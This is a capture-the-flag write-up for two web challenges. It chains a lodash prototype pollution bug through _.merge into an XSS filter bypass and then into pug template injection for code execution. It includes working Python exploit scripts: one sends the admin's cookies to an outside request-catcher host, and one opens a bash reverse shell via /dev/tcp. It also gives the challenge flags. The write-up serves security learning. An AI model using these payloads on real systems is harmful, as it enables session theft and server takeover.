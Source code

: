 # valentina

Valentina contained 2 challenges sharing a vulnerability but with different applications.

## Challenge 1

> The website admin checks her reviews with secrets in her cookies.

## Walkthrough 1

Given that this project was deep into npm dependency hell the first obvious step was to check if any libraries had vulnerabilities.

```
$ npm audit
...
lodash  <=4.17.20
Severity: critical
Command Injection in lodash - https://github.com/advisories/GHSA-35jh-r3h4-6jhm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-p6mc-m468-83gw
Prototype Pollution in lodash - https://github.com/advisories/GHSA-jf85-cpcp-j695
Prototype pollution in lodash - https://github.com/advisories/GHSA-x5rq-j2xg-h7qm
Prototype Pollution in lodash - https://github.com/advisories/GHSA-fvqr-27wr-82fm
...
```

Digging into these vulnerabilities and the source code unveiled that [CVE-2018-3721](https://snyk.io/test/npm/lodash/4.17.4#npm:lodash:20180130), a [prototype pollution](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/) vulnerability, was likely the target.

> The vulnerable functions are 'defaultsDeep', 'merge', and 'mergeWith' which allow a malicious user to modify the prototype of Object via __proto__ causing the addition or modification of an existing property that will exist on all objects.

```js
app.post('/add_review', function (req, res) {
	// ...
	let review_template = {
		review_id: id,
		name: "Valentina",
		message: "your work is amazing!",
		stars: 5
	}

	let new_review = req.body;
	_.merge(review_template, new_review); // <-- this looks vulnerable!
	let cleaned_msg = xss(new_review.message);
	reviews.set(id, cleaned_msg);
	// ...
});
```

Now that I had a way to pollute arbitrary objects, I just needed to find a way to bypass `xss()`, an html escaping function in [xssjs](https://github.com/leizongmin/js-xss).

```js
FilterXSS.prototype.process = function (html) {
	// ...
	var options = me.options; 			// not set in valentina
	var whiteList = options.whiteList;  // looks like we can control this
	// ...
```

Reading the source code revealed that we could control the `whiteList` variable which controlled which tags were escaped.

```json
"whiteList": {
	"a": ["target", "href", "title"],
	"abbr": ["title"],
	"address": [],
	"_comment": "...",
}
```

To retrieve the cookies I added the `script` tag to the whitelist and than had the admin visit the review.

```py
import requests

url = "http://localhost:8999/add_review"
payload = "fetch('https://crimist.requestcatcher.com/'+document.cookie)"
review = requests.post(url, headers={'content-type': 'application/json'},
                            data='{"__proto__": {"whiteList": {"script": []}}, "message": "<script>' + payload + '</script>"}')
id = review.text.split(":")[1]
print("http://localhost:8999/view_review?review_id=" + id) # submit this to /report
```

## Solve 1

`maple{l0d4sh_more_lyk_n0da5h_haha_get_it}`

## Challenge 2

> `flag.txt` exists in the projects directory.

## Walkthrough 2

Given that this website was served by nodejs and I couldn't read arbitrary files it was clear I'd have to pwn the server further.

After searching for ways to exploit this prototype pollution vulnerability further I found [this blog post](https://blog.p6.is/AST-Injection/#Pug) about exploiting [pug](https://github.com/pugjs/pug), the template engine used in this project.

I won't re-hash their work, check out the post if you're interested. To summarize, it gets you RCE so you can pop a reverse shell.

```py
import requests

url = "http://localhost:8999"
review = requests.post(url + "/add_review", json={
    "__proto__": {
        "debug": True,
        "block": {
            "type": "Text",
            "line": "console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/<ipip>/3333 0>&1'`))",
        },
    },
    "message": ":)",
})
```

## Solve 2

`maple{Th1s_was_really_c0mpl1cAted_Im_s0rrY}`
